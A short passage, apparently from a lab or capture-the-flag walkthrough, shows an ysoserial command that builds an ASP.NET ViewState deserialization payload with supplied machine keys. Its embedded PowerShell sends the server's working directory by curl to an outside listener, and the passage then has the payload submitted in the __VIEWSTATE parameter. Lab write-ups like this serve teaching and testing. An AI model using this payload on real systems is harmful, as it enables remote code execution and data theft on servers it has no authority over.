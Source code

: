 
- We'll use the following payload to extract the current working directory:

```
./ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe $a=pwd; $result='http://10.10.14.37:1234/'+$a; 
curl $result" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" 
--decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" 
--validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![img_2.png](img/img_2.png)

- Now send it as the value of the `__VIEWSTATE` parameter:

![img_3.png](img/img_3.png)
